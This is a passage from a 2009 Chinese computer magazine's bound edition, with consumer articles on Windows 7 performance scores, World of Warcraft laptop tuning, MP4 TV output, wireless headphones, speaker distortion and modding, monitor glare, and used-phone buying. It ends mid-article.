同Vista一样，在Windows 7中WEI的评分内容是相同的，都是处理器、内存（RAM）、图形、游戏图形、硬盘5个方面。Windows 7对处理器的测试非常严格，比如无论处理器主频多高，只要它是单核心的产品，最高得分只能为2.9，而主流的双核处理器基本可以得到4~6的评分，剩下的6.1~7.9，这个分数段属于四核或八核处理器。所以即使是同一台电脑，也会因为两套系统的不同评分标准有所差距，Windows 7将分差拉大的原因就是希望用户真能够依靠这个评价方式来判断电脑好坏。举例来说，目前常见的T6400笔记本处理器得分就在4.9分左右，台式机上，Q8200的处理器就能达到7.1分。

## 内存当然越大越好

内存越大越好似乎是亘古不变的真理，在这一点上Windows 7和Vista如出一辙，对内存容量的看重远甚于内存速度，4GB相比1GB的评分差距远远大于同容量的DDR3相比DDR2的评分差距。举例来说，标配2GB内存的机型得分就要高于1GB内存，双通道内存得分要高于单通道内存，根据测试，DDR2 667内存2GB单条可以得到4.9左右的得分，但再扩展一条2GB内存，形成双通道4GB的组合，得分可以提升到5.9分。

## 桌面特效不决定一切

3D桌面特效本是Vista引以为豪的，但由于系统过高的硬件要求简直成了摆设。Windows 7则降低了标准，DirectX 9与DirectX 10级别的显卡都可以运行Windows 7并开启Windows Aero特效，但是DirectX 9级别的显卡，最高只能得到5.9的评分。要想得到6分以上，显卡必须硬件支持DirectX 10，还要有WDDM 1.1驱动的支持。在台式机上，HD4850>GTX285>780G>G41，其中780G整合主板亦能达到3.4分，笔记本方面，9800GS及G105M独立显卡得分在3.5-3.6分左右。但是，我们建议玩家更应该关注游戏图形的得分而不是图形得分，前者才是考量显卡性能的重要标准。

## 硬盘不是障碍

硬盘性能方面，笔记本硬盘目前多为5400RPM产品，得分大约在5.3分左右，7200RPM的硬盘可以达到5.9分（容量都以不低于320GB硬盘测试）。台式机方面，只要是7200RPM的硬盘，单碟容量不小于320GB，一般都能够获得5.9以上的得分。

## 看清顺序再入手

有人说，为什么我配置都挺高，而最终得分还是很低呢？问题就在于Windows 7与Vista一样，综合评价都是以系统设备中最低得分去计算的。购买笔记本电脑也好，台式机也罢，第一要注意不能光看总体得分，第二，要分清得分主次，游戏图形>内存（RAM）>处理器>硬盘>图形，一定要遵循这样一个顺序来衡量电脑。

## 重回艾泽拉斯 魔兽开服优化购机攻略

尽管依旧是燃烧的远征资料片，尽管落后全球资料片更新进度，但《魔兽世界》终归是《魔兽世界》，无论代理商是否更迭，玩家看重的依然是游戏本身。好在，不管怎么样，《魔兽世界》还是回归了。

### 重回魔兽的困惑

刚刚重新开服的几天，大量老玩家陆续回归，甚至是三四年未管游戏过的玩家也重新登录（比如笔者^_^），不过，却突然发现，重新开服后的《魔兽世界——燃烧的远征》（下简称魔兽）变得很卡，3.1.3 10146更新补丁为什么会让游戏变得如此“蜗牛”呢？

进入游戏，一台用NVIDIA GeForce 9600M GS独立显卡（基本相当于新款GT 130M）的华硕M50Vm笔记本电脑在1280×800分辨率下，默认设置进去后几乎不能移动！

进入游戏设置，一项项琢磨，经过几个小时的研究，终于搞明白新3.1.3 10146补丁更新后该如何让魔兽运行流畅了！

### 干掉卡壳的罪魁祸首

更新完3.1.3 10146补丁后运行游戏，进入游戏后，确实会非常卡。但不要着急，点击设置菜单（或是按下ESC键呼出），选择“视频”，然后第一大类是分辨率，为了在副本等地都能保持流畅，中低端显卡用户要根据自己的情况降低一档分辨率使用，比如说笔记本屏幕分辨率是1280×800，那么1280×720的分辨率会是个好选择，如果是16:9分辨率的本本，1366×768的话，也是降低到1280×720比较好。但如果笔记本显卡等级达到了NVIDIA GeForce GT 130M（或9600M GS, 9600M GT），分辨率一项基本可以按照屏幕最佳分辨率使用。

多重采样一项，建议选择“24位色，24位色深2×采样”，这样物体边缘的锯齿会明显改观，但耗损的性能又相对较少。另外，降低输入延迟一项不建议开启，除非你自认笔记本电脑或台式机拥有比较强大的性能，勾选的话可能会有10%以内的性能耗损。

在这个选项界面中，最为麻烦的实际是“垂直同步”一项，很多人都不知道它的作用和意义，但它对系统性能的耗损是非常大的。什么是“垂直同步”呢？早先显示器有两种同步参数，即：水平同步和垂直同步。其中垂直同步信号则是决定了从屏幕顶部画到底部，再返回原始位置所需的时间。

不过LCD内部不是阴极射线管，不像老式CRT显示器那样要靠电子枪去轰击显像管上的磷粉产生图像，所以也就不存在刷新率的问题，但为了保持兼容性，LCD屏还是提供了模拟刷新率。另外，现在的LCD显示屏（LED背光显示屏也算在内）有59Hz和60Hz两种刷新频率模式，这是因为60Hz是液晶显示器在DVI传输模式中的标准刷新频率（显示器和显卡都要有DVI接口，使用DVI视频线），你即便是采用模拟传输的形式，设置刷新频率高于60Hz也没有意义，反而对显示器不好。

说完显示器，再说说游戏中的“垂直同步”。在开启垂直同步功能的时候，游戏的3D引擎会告诉显卡它的计算需求，但显卡在绘制3D图形完成时，要先等待显示器的垂直同步信号响应，再进行显示输出，这就是一个巨大的性能耗损。而当关闭垂直同步功能时，3D引擎将全速运行，不再等待垂直同步信号到来，但是这也会带来一个问题：跳帧、画面断裂。假如显示屏刷新率是60Hz，显卡以100FPS循环显示0~9数字，那么，在开始的0.1秒内，显卡显示了10个数字而显示器只刷新了6次。可见，由于显示器刷新率跟不上游戏的FPS，只能舍弃一部分画面，这种现象表现在游戏里就是跳帧，画面就像断开一样，看起来十分别扭。现在笔记本电脑中的中低端显卡性能毕竟有限，所以为了全速流畅，有时候你必须作出选择——那就是关闭垂直同步功能，忍受偶尔出现的跳帧、画面断裂。

别以为垂直同步就是魔兽龟速运行的罪魁祸首，比起杀手级设置“阴影质量”来说，“垂直同步”的性能耗损能力甚至不值一提。在魔兽的视频设置中，切换到“效果”一项，注意，第一步就是要把阴影质量的拉杆拉到最左面，即“低”的那一端，然后立刻点击“应用”让设置生效！举例来说，一台采用NVIDIA GeForce 9300M GS独立显卡的本本，性能可以因此从仅有10FPS不到的速度，一下提升到了30FPS左右，基本可以实现流畅运行了呢。

阴影质量是新版魔兽中最最让人厌恶的设计！这个“阴影质量”是纯粹的软件模拟计算生成，并不能依靠显卡来进行处理！从根本上讲魔兽是以DirectX 8进行设计的，它不能够利用到DirectX 9乃至DirectX 10上的特效设计方式来运行计算，而阴影这个特效是DirectX 9以后才被归入到显卡的硬件设计中（有专门针对的处理单元，显卡又有统一构架设计，诸多运算单元都能用来计算阴影特效），但一切都建立在DirectX 9标准之上），可想而知，让CPU干显卡的事情，效果绝对好不到哪去。

### 本本运行能力大调查

首先，这其中涉及的12种配置规格笔记本是当前市场上最为普遍的配置，价格多在3800元～6000元之间。在其他方面的规格配置中，硬盘都不低于250GB（单碟容量更大，磁盘性能更好），内存都不低于2GB（魔兽对内存消耗极大）。分辨率全部设置为1280×720，多重采样为24位色，24位色深2×采样，垂直同步关闭，其余采用默认设置。测试场景在部落方的幽暗城，时间为晚上11点前后（游戏玩家较多时）。

Intel Core 2 Duo T6600+NVIDIA GeForce G105M、14英寸宽屏（16:10，1280×800），游戏平均速度：21FPS～27FPS
Intel Core 2 Duo T6600+NVIDIA GeForce G105M、13.3英寸宽屏（16:9，1366×768），游戏平均速度：18FPS～27FPS
Intel Core 2 Duo T6600+NVIDIA GeForce GT 130M、14英寸宽屏（16:10，1280×800），游戏平均速度：26FPS～46FPS
Intel Core 2 Duo T6600+NVIDIA GeForce GT 130M、13.3英寸宽屏（16:9，1366×768），游戏平均速度：24FPS～48FPS
Intel Pentium Dual T4200+NVIDIA GeForce G105M、14英寸宽屏（16:10，1280×800），游戏平均速度：16FPS～23FPS
Intel Pentium Dual T4200+NVIDIA GeForce GT 130M、14英寸宽屏（16:10，1280×800），游戏平均速度：15FPS～26FPS
Intel Pentium Dual T4200+NVIDIA GeForce GT 130M、13.3英寸宽屏（16:9，1366×768），游戏平均速度：23FPS～44FPS
Intel Core 2 Duo T6600+Intel X4500HD、14英寸宽屏（16:10，1280×800），游戏平均速度：11FPS～21FPS
Intel Core 2 Duo T6600+Intel X4500HD、13.3英寸宽屏（16:9，1366×768），游戏平均速度：12FPS～20FPS
Intel Pentium Dual T4200+Intel X4500HD、14英寸宽屏（16:10，1280×800），游戏平均速度：8FPS～16FPS
Intel Pentium Dual T4200+Intel X4500HD、13.3英寸宽屏（16:9，1366×768），游戏平均速度：9FPS～18FPS

显然，优化后的游戏速度都基本能够令人满意，在五人小副本中，速度还会略有提升。NVIDIA GeForce G105M的性能基本可以满足游戏需求，当然NVIDIA GeForce GT 130M的性能表现更令人满意。如果你是魔兽忠诚的玩家，配备一台带有NVIDIA GeForce GT 130M显卡的笔记本电脑是最好的选择。同时特别要注意，在魔兽中，显卡性能并不能决定一切，高内存容量、高性能的硬盘是非常必要的。如果可能，最好使用4GB内存并安装64位操作系统，硬盘尽量选择320GB或更高容量的（单碟容量越大，磁盘性能越高），尤其是内存，现在的价格十分便宜，推荐购机时就升级。

另外大家可能也注意到了，集成显卡的性能表现并不理想。如果你已经拥有了一款独立显卡，又十分想玩魔兽，那么只能以牺牲所有特效为前提了。比如采用集成显卡的X200笔记本电脑在关闭所有特效的情况下，运行速度可以大幅度提升，最高可达30FPS，基本能够流畅运行（大型副本、主城内会比较卡）。

再有就是这一代笔记本显卡ATI的产品非常之少，目前仅能见到少量的ATI HD4370产品出现，其性能基本介于NVIDIA G105M及GT 130M之间，其余多是HD3000系列的板载集成显卡（集中在AMD处理器的本本上），性能基本和GeForce G102M一样，玩魔兽还是比较吃力的。

## 当MP4只有色差输出时 如何将画面映在老旧的电视上

现在MP4播放器已经很流行了，价格也不是很贵，相对千元以上的PSP等设备，它还是很便宜的，用它在街头巷尾看片子也是一件很惬意的事情，偶尔连接到家里的电视上，全家一起欣赏也不错。

但问题来了，家里的电视机有点老旧，还是球面显示屏的呢！只能接受普通的视频信号输入，而MP4大都是采用高档的色差输出，这咋整啊？不会是换电视机或者换MP4吧，代价也忒大了点，咨询了很多懂行的朋友们才知晓，只要是支持色差的MP4，一样也可以普通输出，笔者被先入为主的观念蒙蔽了。

原因在于，老电视是接收模拟信号的，色差线也属于模拟线材的一种，其实就是由三条AV线组成，内部线缆结构与接头均相同。AV线缆是在一条线缆内传输所有视频信号，而色差是将信号拆分后进行传输，其效果会更好一些，不过在老的电视机上也区分不出来，可以简单地用色差线中的一根进行AV输出。老电视上一般只有3个输入接口，分别是V（代表视频输入）、L与R（分别是左右声道输入），可能很多人与笔者一样，因为接口不够便自认为不能使用色差。操作方法其实很简单，音频输出照常接入L、R两个接口，而色差线只要将绿色的那根接入接口即可。

然后在MP4中视频设置里面将电视输出类型调整为“普通输出”即可，在播放视频时按下确定键，再按一下就可以进行电视输出了。当然配备遥控器的MP4也可以用遥控器进行操作。

实际操作很简单，其实撰写此文的目的在于：希望大家不要总被狭隘的固有概念束缚住开拓精神，身边很多事情，也许只要简单几个操作或者是技巧便可以轻松解决，犯不着大费周章去换器材、整转接什么的。

# 无线技术 甩掉耳机的“尾巴”

也许当古老的等幅报载波开始应用在军事上时，没有人会预料到手机这样的高科技无线产品会很快民用化；也许，当手机开始流行于街头时，人们也没有预料到无线会铺天盖地的发展到生活的各个角落。

在我们最为熟悉的IT领域，很多人已经淡忘了是哪件外设产品开始无线化，可能也遗忘了无线技术究竟从何发展而来，如何延展至今，将我们脆弱的身体暴露在形色的‘辐射’之下。

# 无线传声的先驱——FM无线

FM无线技术虽然古老，却也可能是目前发展最为成熟、应用范围最广、成本最低的无线技术之一。目前市售大部分的无线耳机，一部分无线音箱、无线话筒都采用的是FM技术。之所以普及范围广，是因为FM技术存在着许多优点：传输距离较远，可以实现‘广播式’连接，但是它最致命的缺陷就是保密性不强，低频76MHz-108MHz频率用收音机就可以捕获，而高频800MHz的话筒信号也容易产生谐波干扰。

# 无线传声的兴起——蓝牙

蓝牙其根本也是基于2.4G频段的无线传输技术，由于采用的协议不同，所以有别于其他。就目前来说，蓝牙技术最主要的应用就是蓝牙耳机，大部分的手机都集成蓝牙功能，所以‘群众基础’广泛。由于蓝牙耳机的这种得天独厚的优点，所以大部分蓝牙无线设备不需要设置发射机，仅用蓝牙耳机这个接收机就可以工作；其次它的保密性极佳，这是由2.4G的频率特性所决定，缺点就是它的传输数据量小，仅能达到每秒1MB左右，即便是宣称为听音乐设计的双声道蓝牙耳机也是如此，高低频被严重压缩，保留的中频仅仅能够实现语音通话。

通俗来讲，大众认为的2.4G技术是使用2.4G载波，P2P通讯协议的产品。目前P2P协议的2.4G无线传输可以达到2MB/s的数据吞吐量，而CD级音质仅有1.4MB/s左右的数据传输量，无线键鼠的数据传输也不会超过此指标，所以2.4G很轻松便达到了无损传输。它对发射功率要求不高，相对来说较为省电，功率的调整可以提高接收灵敏度与发射距离。凭借着2.4G全双工工作的优点，基于它制作的产品往往具有数据传输稳定、保密性高、省电、传输距离远等优点。应用在无线耳机上，可以集成麦克风功能（随着固定带宽的被占用，当麦克风开启时音质将会有所下降），这就为语音聊天用户提供了很大的方便。通过以上几种无线传输方式的对比可以发现，2.4G无线传输很容易凭借着诸多优点成为最佳的无线传输解决方案。键鼠外设已经比较常见，但作为另外一个重要的外设——耳机在无线化的进程上却发展缓慢，虽然它已然成为生活的必需品，大到电脑、小到手机、MP3、MP4无处不在，电子竞技领域，也上升到与鼠标、键盘同等重要的工具。但今年，情况却发生了转变，各大音频厂商加快了音频领域无线化进程，使出看家本领，将新品逐步推向市场。近期现代音响便首当其冲的发布了CHY-G2400，专为笔记本用户设计，CHY-G2400应用了最新技术对输出输入双通道进行完全分离，保证高品质立体声音乐绝无干扰。同时采用小巧的U盘式信号发射器，其内含有与接收器精确配对的高技术芯片，无须用户重新配对，即插即用，最大化地方便用户。外接麦克风等分体式设计，将CHY-G2400便携性发挥到了极致。由此看来，现代音响很好的洞悉了市场发展方向，迈出了试探的步伐。今年音频市场的看点是什么？无线！（文/张博）

| 技术参数 | |
| --- | --- |
| 无线参数 | 波段2.4G |
| 工作范围 | 全向10米 |
| 调制方式 | GFSK |
| 耳机发射功率 | 0dBm |
| 频响 | 20-20KHz |
| 失真 | ≤0.1% |
| 信噪比 | ≥75dB |
| 工作电压 | 3.5V~4.5V |
| 喇叭阻抗 | 32Ω |
| 阻抗 | ≤2.2kΩ |
| 频响(带宽) | 6KHz |
| 接口 | USB标准接口 |

# 《被遗忘的时光》不能被遗忘的失真之音

很多人对音乐的热爱都是比较有偏好的。比如身边的朋友，有人喜欢甜甜的声音，声音传过耳膜，让你的大脑尽享甜点蛋糕；有人喜欢五月天那样的流行摇滚音乐，听起来比较High；还有人喜欢lounge（沙发音乐），那种似有似无的靡靡之音……总之，声音对大脑的刺激千变万化，但恐怕没有人会喜欢失真的调子，荒腔走板的音调不仅谈不上享受，对人本身也是一种折磨吧。

经常逛卖场的人一定知道，前一阵子几乎每个卖音箱的店铺里都放两首歌曲，一首蔡琴的《被遗忘的时光》，一首老鹰乐队的《Hotel California》（加州旅馆）；美名其曰‘试音天碟’，但听起来，你总会感觉非常别扭，可别扭在哪里？

其实大众的理解偏差造成了这样一个事实：只要商家敢于在音箱上播放《Hotel California》，那就一定差不了，何况商家热情的讲解这老鹰乐队的历史，又穿插着《Hotel California》歌曲的音色解说，谁还会怀疑什么？更扭曲的是，《无间道》中演绎试音歌曲《被遗忘的时光》时，主角间的对话‘高音甜，中音准，低音劲’亦成为评价音箱好坏的标准，当声音已经开始‘发劈（失真）’的时候，你还能听到什么呢？

开到60%以上，播放设备如MP3（相信也是绝大部分商家的‘试音’设备）也把音量调整到100%，你能听到的只是浑浊不堪的回放效果，《Hotel California》中清晰的吉他声，扫琴的尾音、沙锤、三角等配乐的背景声，人声中音部分的嗓音、喘息，你一样也听不到！至于《被遗忘的时光》中，蔡琴独特嗓音表现出的人声中音部分及低音的浑厚就更是如此了。为什么会失真？由于各种音源的使用场合、电源、输出级设计不同，其线路输出的电平具有很大的区别。如果以低电平音源为依据的话，会出现连接高电平音源时音量电位器开到最大时出现严重失真，声音难听，还可能造成硬件损坏。正是这个原因，才让我们与真实的音色失之交臂。当然，对于一个几百元的音箱来说，很多人的要求不过是‘好看，好听’就够了，至于怎么好听，声大即可。如同俗语‘一白遮百丑’一样，只要把音箱声音拧到最大，绝对比蚊子声时听起来‘震撼’许多。当然，从另一个方面来讲，也基本没有音箱厂商愿意在这上下功夫。

增加。这主要是由于电源功率的限制，这时你听的声音就会发生失真。相当于，你的水龙头出水量与水管并不匹配，缺少一个有效的手段来控制、协调二者之间的流量差异。基于这个不可忽视的技术制约，必须有一种补充手段，来改变这种问题。比如漫步者的E.I.D.C.（Edifier智能失真度控制系统）专利技术便是如此。当输入源发声输出到普通音箱时，通过内部的放大电路配合音量调节，再输出到后级功放，最终通过扬声器把声音播放出来。而在漫步者具备E.I.D.C.技术的音箱里，当开始播放时，漫步者E.I.D.C.技术中的MCU芯片将这些数据采集，并加以判断是否超过限制，如果是，芯片便会做出修正指令，从而让音箱能够在开大音量时依旧保持不失真的状态。简单说，你可以把它理解成一个阀门，用来控制水流量的大小，以保证相互之间的匹配。在具备这个技术的漫步者音箱上，当你将旋扭开至比较大的时候，音色也能基本保持不变，让你真正能够有机会体味到什么是《被遗忘的时光》中‘高音甜，中音准，低音劲’，《Hotel California》中清晰的吉他声，扫琴的尾音、沙锤、三角等配乐的背景声，人声中音部分的嗓音、喘息。

# 将照片做成MTV在MP4中欣赏

# 素材准备要周全

想将照片制作成MTV，很显然得先将要制作的照片准备好，再选择好一首自己喜欢的歌曲，如果平时还喜欢一边听音乐一边看歌词的话，还可以将LRC格式的歌词文件放到歌曲目录中以备用。素材准备完毕后然后再从http://www.onlinedown.net/soft/53420.htm下载这款名为“MP4数码相册DIY”的小工具，将其下载安装到系统中。

# 点点画画制作照片 MTV 相册

1.  打开“MP4数码相册DIY”，在主窗口中单击“添加音乐”，将准备好的歌曲添加进来，再单击“添加歌词”按钮将歌词同时添加进来。先单击“播放”按钮预览歌词与歌曲是否同步，如果出现延时现象，还可以通过“歌词同步调节”功能来调节。
2.  单击“添加”按钮将准备好的照片一次性添加进来，照片添加后可以在右侧窗口中进行预览，与此同时还可以通过上移、下移按钮调节照片在MTV中的播放顺序。为了迎合自己的习惯，可以将照片播放速度重新设定，例如可以设置为10秒播放一张照片。最后只要设置好输出的位置、MTV相册名称、视频尺寸（这点很重要，一定要按照自己MP4播放器的屏幕分辨率来进行匹配设置，这样设置后在播放时才不会变形），帧率（可以留其默认值）。单击“进入生成相册”按钮，单击“开始生成”按钮即可开始制作了。制作完毕后直接打开目标位置就会看到制作好的MTV相册，可以直接在电脑中播放预览一下效果，最后再将其拷贝到MP4播放器中即可。当然，如果自己的手机或是其他数码设备也支持播放视频文件，只要在制作时将视频尺寸设置得与这些设备相匹配，然后在这些设备中欣赏也是可行的。（文/呆瓜）

# 三诺摩机大赛 也许你就是下一站的冠军

看着右侧这份音频发烧友的自述，很难与平凡、沉默寡言的宋泉联系在一起。这是记者在会场遇到他后的第一感觉。不过在采访时，聊到音响器材、摩机经验，侃侃而谈时条理清晰、技术要点把握到位，却又颠覆了记者初次见面时的印象。

宋泉，男，1977年生于河南开封。父亲是电子工程师，小时候就拿电子元件当玩具。高中时代，从第一次把百威的15寸专业键盘箱接到卡座上听单声道起，便开始“身中剧毒”——迷恋音响。大学时用SB Live摩改电脑音箱。后来转战发烧论坛，结识更多发烧友，有机会听过一些优秀的器材，先后玩过Rega LS1、ATC SCM7、Yamaha NS1000M等音箱、歌德SR80和森海塞尔HD600耳机、电子管、晶体管功放，还自己设计功放、耳机放大器和发烧线材等。

摩机，对发烧友而言，意味着用最低的成本改造音箱，使其声音更加贴合自己的感官享受。提起宋泉摩的第一台机器，已经是1998年的事了。那时候他正读大二，刚组装了第一台PIII电脑，当时他又超频又测试又摩机，忙得不亦乐乎。宋泉第一次摩机对象便是三诺的一款多媒体音箱——白色、圆滑的外形，400多元，也算是当年电脑音箱中音质不错又美观的了。

当时他使用豪华的二阶分频器替换原来一个简单的分频电容，同时又使用了外置的100W功放取代了内置功放，不算很铺张的投入，却带来了无穷的乐趣。

由此能看出宋泉先生很早便是发烧友了，而且还算是三诺的忠实粉丝。那么摩机需要什么样的功底和技巧？这还要看他的精彩回答。这完全是一个非官方的“指导手册”。

# **摩机要的不仅仅是知识 还要有对声音的感觉**

宋泉谈到摩机经历时，对记者说：“摩机如果具备一定的电子电路知识当然是最好的，基本上能够灵活掌握高中物理课所授的电子电路的知识，再加上一些拓展阅读就足以满足摩机的要求。其实大多数情况下，摩机并不需要对电路做修改操作，只需要一对一地替换一些元件。现在网络上有很多相关的向导和教程，就算不懂物理，只要按照向导一步一步地做，一般都可以顺利完成摩机工作。”

其实摩机有很多途径，可以通过改造电路来提升音质，也可以通过调整器材的谐振，改善器材工作环境进而改善声音素质。特别是对音箱来说，自身的谐振问题是关键因素。因此如果不懂得电路相关知识，一样可以摩机并获得快乐。在音箱的适当位置加入一些减震的东西，或是给音箱的板材加强硬度等，都可以改善音箱的谐振特性，从而提升音质。我有一个朋友给ATC SCM10音箱外面贴了一层厚花梨木板，结果带来的改善是全面的，相比原来的声音有很大提高。

当然以上说的仅仅是摩机的方法，有了方法并不代表能够把音箱摩得更好。最重要的一点还是要明白什么样的声音是对的，什么样的声音更好。当你更换了一个零件之后，和之前的声音对比，是改善了还是变差了，要能够客观地判断。听音是个非常主观的行为，而且很大程度上受到心理作用的影响，往往自己觉得会好的声音，听起来就真的感觉很好。而Hi-Fi界所谓的金耳朵就是经过长期的训练，有一个客观公允的听感判断。拥有再好的电路知识，如果没有正确听感的指引，就很容易跑错方向，最终离好的声音越跑越远。

在问及参加摩机大赛的初衷时，宋泉很风趣地说：“三诺摩机大赛是一个朋友建议我参加的，正好我之前的多媒体音箱已经服役很多年，也需要物色一个‘接班人’了。没想要拿奖，就想能入围，得个高素质的电脑多媒体音箱。”

# **如何改善高频保护电容？**

根据以往的实践经验，在大于1uF的场合，使用电解电容或者钽电容反而容易获得更加平衡自然的声音。当然有人要问了，这个地方需要无极性的电容，电解电容和钽电容都有极性。其实有极性的电容可以反向串联起来，结果得到一个无极性电容。另外，现在很多大厂都开发了无极性的电解电容，甚至专门为分频器网络优化，价格便宜，声音又比贵不少薄膜电容更加自然随和。选择大厂正规出品的无极电解电容或者两个电解电容反向串联来替代薄膜电容将会有效果。宋泉正好有摩音箱分频器剩余的nichicon生产的4.7uF的无极电解电容，拿来用在这里，一个不够，就每个高音用两个并联成9.4uF来用。更换电容后，高频立刻变得清澈动人，声音干净同时又质感更好，而且空间形体感表现更好。

# **准确定位摩机的意义 是通向取胜的真谛**

宋泉说：“因为我本身是个Hi-Fi发烧友，因此对声音比较挑剔一些，哪怕高音再透、低音再劲，如果声音不平衡，存在任何偏颇，听起来都会不舒服。”

我摩这款参选产品本身就是把它当做自己日后的电脑主音箱来摩。我的目的就是可以舒舒服服地听。因此我没有花太多心思去追求声场效果，而是试着改善它的一些不足之处，使它拥有更加健康、亲切的声音表现，可以让我听的舒服，忘记音箱的存在。

作为电脑多媒体箱，一般都是放在桌子上显示器的旁边，难免会贴后墙与桌面，更不会有专配脚架。因此最常出现的问题就是低频驻波。所谓低频驻波，就是听低频的时候嗡嗡的，其结果是除了低频驻波外，其他的什么都听不清了。我一直以来不太喜欢的2.1多媒体电脑箱，就是这个问题存在得很严重。通过对驻波谐振现象的研究，我破坏了形成驻波的必要条件，最终使驻波一扫而清，不但低频清晰了，而且很意外低频下潜深度也改善不少，甚至连中频的密度感也出来了。

作为二分频的电脑多媒体箱，另一个容易存在的问题就是高低音的平衡和中频的衔接。一款高低不平衡的音箱听感是很不自然的，很容易让人不舒服，不耐听。而高低音的衔接点就在中频，我们听的音乐中绝大多数的信息也都包含在中频段。因此中频的好坏是一个音箱的声音是否亲切、是否健康的关键点。通过对平衡度和中频的改善，最终这款多媒体音箱的声音表现信息量丰富、健康全面、亲切耐听，可以让我舒舒服服地使用了。

活动现场，五位评委在点评时认为，宋泉的方案就是以平和、亲切、健康为主，该有的东西不丢失，也不刻意突出什么。轻松地完成一款电脑多媒体箱的使命，不给用户添乱。缺点呢？可能是没有特别强调效果，高频不会很飙，低频也不会很爆，声音不会很甜润，也不会很轻逸。

面对接下来的比赛，宋泉透露，他会在长时间聆听的耐听度上面作调整，让声音稍微讨好一点。

# **面对决赛 心态反倒更为平和**

宋泉说：“对我的作品我自己非常了解，它是以我个人的听音标准而打磨的。听音是一个非常主观和个性的行为，每个人都有不同的听音喜好。我也看过去年比赛的摩机方案，我发现中国藏龙卧虎，有太多太多的能人高手。我相信应该会有更多更好的作品出现，我希望这样的作品越多越好。Hi-Fi发烧友里有不少人看不上国产器材，的确，目前国产Hi-Fi器材与国外相比还有一些差距，而且这样的现象还比较普遍。这需要长时间的努力。我希望这种现象早点成为历史。希望中国再多一点音响高手，早点涌现出一些世界级的音响作品。我们中国制造的‘神七’都上天了，难道在音响上就干不过老外吗？”

# **对所有摩机玩家一个简短的寄语**

俗话说，工欲善其事，必先利其器。但是宋泉认为，摩机可以摩好也可以摩坏。因此摩机之前首先要找对方向，多听一些现场音乐，或者去Hi-Fi音响店听一些高档器材的声音表现，有了一个正确的声音概念，才能够把音箱摩得更好，而不是更坏。英国ATC品牌是专业监听音箱，它拥有全世界最好的中频表现，如果有机会去听听ATC，就明白中频的无穷魔力了。

（本刊记者/张博）

# 别让显示器变成镜子

相信不少读者都遇见过反光的情况，一般来讲大家都会造成困扰，而反射光的问题经常出现在采用深色背景的屏幕上。如果屏幕的防反射处理做得很差，再加上显示器摆放的位置与房间的灯光、周围环境不能互相配合，便很容易产生反光的现象。

其实，显示器反光是个很简单的原理，那么我们减弱或消除它也不会十分的困难。

# **小知识 反光三大害处**

1.  反光使文字变得模糊或不易阅读。
2.  使用者可能会不自觉地采取不舒服的姿势，以避免看到反光，因而造成颈部及肩部的疼痛。
3.  如果反光的影像清晰，就会吸引使用者的视线，使眼球必须做不必要的聚焦调整。

# **认清贴膜类型，消除反光困扰**

暂且不提镜面显示器，就我们普通的液晶显示器来说，虽带有涂层但还是可以看作是一个平滑的表面，那么让直射光线变为漫反射就成为了消除镜面的重要思路。

老一点的用户可能还记得CRT时代二手显示器都有着“原膜”、“3M膜”等等的说法。由于CRT显像管采用玻璃材质，可以说是一面标准的镜子，所以表面的贴膜就成为了它极为重要的部分。所以那个时候就已经有了防反射贴膜等第三方贴膜。

液晶显示器的贴膜与CRT显示器的贴膜没什么不同。其中分为AR和AG两种贴膜，AR系列相对来说色泽透光度等各方面比较好，但其采用了光滑的表面，而AG系列是纯正的亚光效果，表面是磨砂不反光的。因此我们应该选择AR也就是磨砂表面的贴膜。其贴膜方法，与手机贴膜别无二致。

# **自制遮光罩，遮挡入射光**

1.  第一步：准备一些纸板、剪刀和双面胶、透明胶。
2.  第二步：剪出纸板大概样式（见图）。
3.  第三步：粘贴三块纸板，一般使用透明胶即可。
4.  第四步：将纸板粘贴于显示器左、右、上三个侧面，在这里透明胶就不行了，要使用前面准备的双面胶。

到这里，我们就可以看到最终的效果了，和EIZO等高端显示器也没什么区别吧。



（文/小静）

一般遮光罩的高度是15cm左右，太高容易遮挡视线，太低又无法遮挡光线。

CfanBoundEdition · 2009 345

# 二手手机选购指南

身边有朋友经常在酒席间戏侃：有钱玩金银，没钱玩手表，玩手机的就是傻子。虽然是戏侃，但背后的道理却很深刻：对于普通老百姓来说，花血汗钱追随手机这样高速淘汰的数码产品，是绝对不理智的，这种视血汗钱为粪土的游戏让别人玩去吧，做个智者专捡二手便宜货。

# 仍具时尚优势品种：索尼爱立信X1、黑莓Bold9000

索尼爱立信X1手机为侧滑盖设计，屏幕尺寸大、蓝牙、3G、AGPS定位，功能上还算跟得上时代（最重要的是支持3G），新机价格也已经降到4000以内，淘宝商城中已有标价在2000多元的二手产品，如果没有质量问题的话，最少可以节省30%左右的钱。而同样是时尚魅力不减的黑莓Bold 9000，作为一款黑莓高端机型，集商务应用、便捷的网络功能、多媒体功能、拍照、摄像等主流功能于一身，外观大方，不仅是二手手机的极佳选购对象，即使作为新手机来购买也物有所值，但需要注意的是Bold 9000没有正规行货，保修起来较为麻烦。

# 购机技巧：

1.  淘宝商城
2.  同城交易

# 小技巧：

在搜索时还可以限定价格区间、新旧程度，搜索到目标后还可以设定搜索结果按价格升序排列，这样便可将最低价格放置前端显示。

# 特显价格优势：诺基亚的N系列

诺基亚品牌早已不用大众去猜疑了，而其N系列为智能型手机，适合时下的一些流行应用，随着新机型的推出，N系列手机价格早已走进寻常百姓能够接受的区间了。N95、N96曾经的机皇放到今天来看，在性能、配置上也丝毫不落伍，适合实用主义者选择。

# 凸显强大功能：多普达Touch pro

刚上市时高达五六千元的重量级商务手机，侧滑盖设计，配备QWERTY键盘更方便应用。高配置CPU（528MHz）、内存（288MB RAM）决定该机运行时的顺畅性。如果平时使用时对功能要求较高的话，选择该款比较合适。

# 购机技巧：

联系到卖家后，不管是同城交易还是网络交易，根据对方提供的资料仔细查看，包括文字介绍、图片等，最好将这些数据保存到本地硬盘中。

# 小技巧：

很多商家在放出手机图片时，他们的手机有些还是在继续使用中，可能出现照片上没有的问题，所以在购买之初一定要仔细询问拍照的时间、手机是否在用等一些细节问题（在这点上小特同学吃过大亏，购机时看图片没有太多问题，而真机到手却无故多出一个大大的划痕，细查之后发现手机照片的EXIF信息时间是3月份，他的购机时间却是5月）。

# 设计大赛背后的阴谋 第三届航嘉机箱创意设计大赛后记

不知不觉航嘉机箱创意设计大赛已经进行到第三届了，从前两届设计大赛中我们看到很多优秀的的作品，看到越来越多的设计师参与进来，看到时尚创意的后DIY时代在机箱上的表现，也许有人会说这种比赛完全是炒作，是自娱自乐，得到如此非议的航嘉为何要一届又一届的坚持着，为何又持续扩大着比赛的规模和影响力，航嘉得到了什么？

# 阴谋之一：角色的转换

